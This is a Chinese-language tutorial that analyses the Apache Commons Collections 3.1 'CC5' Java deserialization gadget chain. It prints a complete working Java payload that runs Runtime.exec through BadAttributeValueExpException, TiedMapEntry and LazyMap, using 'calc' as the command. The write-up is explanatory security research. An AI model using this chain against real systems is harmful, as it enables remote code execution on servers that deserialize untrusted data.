

##  环境搭建

JDK没有限制

```xml
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
```

##  分析

cc5链子跟cc1差不多的,另一种方法调用LazyMap.get()

一直到`LazyMap`那里的思路都是一样的。接下来就是需要调用`Map`的`get()`方法了

cc1中的是`AnnotationInvocationHandler`触发了`get`方法

cc5中是`TiedMapEntry`类的`getValue()`方法调用了`get()`

```java
    public Object getValue() {
        return map.get(key);
    }
```

它的`toString()`调用了`getValue()`方法：

```java
    public String toString() {
        return getKey() + "=" + getValue();
    }

```

继续找怎么触发到他的`toString`方法？

在`BadAttributeValueExpException`类的`readObject()`方法



需要`valObj`是`TiedMapEntry`类的对象

```java
ObjectInputStream.GetField gf = ois.readFields();
Object valObj = gf.get("val", null);
```

调用`readFields`从流中读取了所有的持久化字段，然后调用`get()`方法得到了名字是`val`的字段,又是一个`private`,反射可以用了

刚好这个类可以进行反序列化

直接写payload

##  payload

```java
package cc5;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class payload1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"z3eyond");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Class cl= badAttributeValueExpException.getClass();
        Field field=cl.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);
        byte[] bytes=serialize(badAttributeValueExpException);
        unserialize(bytes);
    }
    public static byte[] serialize(Object o) throws Exception{
      ByteArrayOutputStream baos=new ByteArrayOutputStream();
      ObjectOutputStream oos=new ObjectOutputStream(baos);
      oos.writeObject(o);
      return baos.toByteArray();
    }
    public static void unserialize(byte[] bytes) throws Exception{
        ByteArrayInputStream bais=new ByteArrayInputStream(bytes);
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }

}

```

##  POP链

```
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()

```

